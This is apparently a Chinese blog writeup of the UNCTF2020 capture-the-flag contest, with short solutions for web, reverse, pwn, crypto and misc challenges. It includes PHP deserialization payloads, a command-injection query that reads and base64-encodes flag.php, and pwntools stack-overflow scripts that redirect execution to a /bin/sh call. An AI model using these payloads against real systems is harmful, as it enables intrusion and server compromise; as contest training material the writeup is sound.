<!--yml
category: 未分类
date: 2022-04-26 14:33:47
-->

# UNCTF2020 writeup部分题解_YE.SS的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_45813388/article/details/109707695](https://blog.csdn.net/weixin_45813388/article/details/109707695)

web 方向

1、**EasySSRF**

**题目中过滤了很多协议，php遇到不认识的协议就会绕过，所以写一个www再回到根目录就能得到flag**



2、**easyunserialize**



每替换一次challenge就可以逃逸出4个字符，然后password那一串反序列化有29个字符，不是4的倍数，所以删掉最后的大括号，发现依然可以运行。就ok了。



payload:

?1=easychallengeeasychallengeeasychallengeeasychallengeeasychallengeeasychallengeeasychallenge";s:8:“password”;s:4:“easy”}

**Ezphp**



弱类型比较

bool类型的true跟任意字符串可以弱类型相等。因此我们可以构造bool类型的序列化数据 ，无论比较的值是什么，结果都为true。

payload:

data=a:2:{s:8:“username”;b:1;s:8:“password”;b:1;}

**Babyeval**

Payload:

?a=echo%20`cat%20flag.php|base64`;



解码就可以了

**UN’s_online_tools**



cat被过滤了用\绕过



**俄罗斯方块人大战奥特曼**

俄罗斯方块游戏，按f12可以找到游戏的包.wasm，下载下来用010editor打开，满屏的flag，找着找着发现一个像目录一样的字段，在网页中试一下，直接拿到flag

reverse方向

### 题目名称re_checkin

### 操作内容：

用ida反编译后



发现main函数中有



那么str2中存储得到底是什么呢?

这里提到sub_4015DC修改了这个Str2

Sub_4015DC是这样做的



这就是flag了

### 题目名称easyMaze

### 操作内容：

用ida反编译

发现main里有这样的代码

Help me out?DST?这是提示我这是一道迷宫题



V3是什么东西?

当这两个函数都返回真时v3时真

那么



我们先看看sub_401757

奥,这是告诉我们这个flag被包裹在UNCTF{}中



那么sub_40161A呢?



这说明flag时一堆方向了

嗯



这个D和0时不能走的

走到S就成功了



那么迷宫在哪里呢?

在DST这里



说实话,乱找找到的这个地图





把地图做出来后就可以得到flag了

### 题目名称YLBNB

### 操作内容：

只要把网址输入进去[http://45.158.33.12:8000/](http://45.158.33.12:8000/)就可以直接拿到flag

pwn方向

### 题目名称fan

### 操作内容：

看看vul是什么



Buf的位置是rbp-30

Read读了0x40

所以可以栈溢出

from pwn import *

url = remote(“ip”,port);

system_adress = 0x 0000000000400735

payload = ‘a’*(0x30+8)+p64(system_adress)

url.sendline(payload)

url.interactive()

### 题目名称do_you_like_me?

### 操作内容：



Buf [rbp-10]

Read0x64

又可以栈溢出

看下可不可以找system(“\bin\sh”)



Sub_4006CD使用过这个system



一个大大的/bin/sh

那么就控制程序到这里去吧

from pwn import *

url = remote(“ip”,port);

system_adress = 0x 00000000004006CD

payload = ‘a’*(0x30+8)+p64(system_adress)

url.sendline(payload)

url.interactive()

crypto方向

**Wing**

Word里找字体照着打



然后飘号和下划线的wing好容易弄混，实际应该是下划线

**easy_rsa**

这题就是个简单的rsa，根据a，b算出p，q用一个rsa解密脚本就可以得出来

**鞍山大法官开庭之缺的营养这一块怎么补**

一个简单的培根密码，直接用在线网站就可以解出来

MISC方向

**零**

[https://blog.csdn.net/amherstieae/article/details/108909743](https://blog.csdn.net/amherstieae/article/details/108909743)

搜了一下发现有在线转换器的

**baba_is_you**

简单签到题，把文件拖入010，开到最后有一个网址，用浏览器打开看到评论区有flag

**爷的历险记**

是一个rpg游戏，必不可能硬打，直接在文件的包里找到怪物属性，改一下怪物血量，进去打一下就可以得到flag。

**YLB’s CAPTCHA - 签到题**

emmm，硬打出来的，有点费眼睛。。。

**阴阳人编码**

先搜到了一个阴阳怪气编码，但是编码规则显然不一样，然后看密文的格式很像brainfxxk，把两个字符改成ok，三个字符改成ook，反着的问号改成正着的，拖到在线网站中，直接解密得到flag

**躲猫猫**

这个我用了取巧的办法，直接把后缀改成了.zip，发现其中有一个文件中有一串密文，在线解密一下就有flag了

**被删除的flag**

直接用010打开就可以拿到flag了



**撕坏的二维码**

二维码损坏程度不高，直接修复右上角的标识码就可以扫出结果了

**mouse_click**

usb的流量分析，网上可以直接找到现成的操作步骤，只要看出是用左键来画画的就可以了，最后看着模糊的图像就可以得到flag

[https://www.anquanke.com/post/id/85218](https://www.anquanke.com/post/id/85218)

[https://blog.csdn.net/qq_43431158/article/details/108717829](https://blog.csdn.net/qq_43431158/article/details/108717829)

**EZ_IMAGE**

**也是在网上可以找到的现成拼图方法**

[https://blog.csdn.net/fjh1997/article/details/107585782](https://blog.csdn.net/fjh1997/article/details/107585782)

montage和gaps直接在linux环境下一用就出来了

**倒影**

在文件最后有一串base64，解密后发现最后是4030b405

根据题名，直接把字符串倒序输出是一个压缩包

爆破下6位数字密码就行，即可得到flag